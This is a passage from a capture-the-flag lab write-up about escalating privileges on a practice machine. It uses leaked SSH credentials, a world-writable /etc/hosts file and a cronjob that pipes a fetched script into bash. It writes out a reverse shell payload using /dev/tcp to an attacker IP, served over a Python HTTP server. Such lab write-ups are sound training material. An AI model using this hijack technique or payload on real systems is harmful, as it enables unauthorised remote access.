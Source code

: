 Checking them one by one, we see that we get the SSH credentials for `sam-sprinkles` on the fact with ID `43`, if we use the username `Admin (IFSG22LO)` or `sam-sprinkles (ONQW2LLTOBZGS3TLNRSXG===)`.

![Web 80 Facts Credentials](web_80_fact_creds.webp){: width="1200" height="600" }

Using the discovered credentials with `SSH`, we get a shell as `sam-sprinkles` and can read the second part of the Chad Cherry's password.

```console
$ ssh sam-sprinkles@cherryontop.thm

$ wc -c chads-key2.txt
7 chads-key2.txt
```

## Shell as bob-boba

### Discovering the Cronjob

Going back to the shell we have as the `notsus` user and enumerating the system, we discover a cronjob running as `bob-boba` at `/etc/crontab`.

```console
notsus@nanocherryctf:~$ cat /etc/crontab
...
*  *    * * *   bob-boba curl cherryontop.tld:8000/home/bob-boba/coinflip.sh | bash
```

It fetches a script from `cherryontop.tld:8000/home/bob-boba/coinflip.sh` and executes it by piping it into `bash`.

### Writable hosts File

Also enumerating the system more either manually or by using `linpeas`, we discover that the `/etc/hosts` file is writable.

```console
notsus@nanocherryctf:~$ ls -la /etc/hosts
-rw-rw-rw- 1 root adm 312 Apr  8  2023 /etc/hosts
```

We can use this with the cronjob from before to escalate to the `bob-boba` user. For this, we can add an entry to the `/etc/hosts` file to make the `cherryontop.tld` resolve to our IP address. Then, we can start a HTTP server to serve `/home/bob-boba/coinflip.sh` file with a reverse shell payload. So, when the cronjob runs for the next time, it will fetch the script to run from our server and will run our reverse shell payload.

First, setting up our HTTP server to serve the script.

```console
$ mkdir -p home/bob-boba/

$ echo '/bin/bash -i >& /dev/tcp/10.11.72.22/443 0>&1' > home/bob-boba/coinflip.sh

$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
